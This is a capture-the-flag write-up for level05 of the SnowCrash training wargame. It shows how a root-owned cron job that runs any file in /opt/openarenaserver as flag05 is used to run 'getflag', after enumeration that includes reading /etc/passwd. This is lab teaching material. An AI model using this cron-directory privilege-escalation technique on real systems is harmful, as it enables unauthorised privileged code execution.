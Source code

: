 
```
level05@10.14.59.240's password: 
You have new mail.
```

There is a user named mail in `/etc/passwd`

```bash
cat /etc/passwd | grep mail
```

```bash
find / -group mail 2> /dev/null
...
/var/mail/level05
/rofs/var/mail/level05
...

level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

```


It is a cron job that executes `/usr/sbin/openarenaserver` periodically.

Examining the script `/usr/sbin/openarenaserver`.

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

The script executes every file inside `/opt/openarenaserver` using bash. One method to crack this level is to create a script inside `/opt/openarenaserver` that calls `getflag` and redirects the result to `/tmp`. (Note that the cron job is executed by the flag05 user.)

```bash
echo "getflag > /tmp/level05flag" > /opt/openarenaserver/test && chmod +x /opt/openarenaserver/test
```

Wait for the cron job to run the script, then...

```bash
cat /tmp/level05flag
```

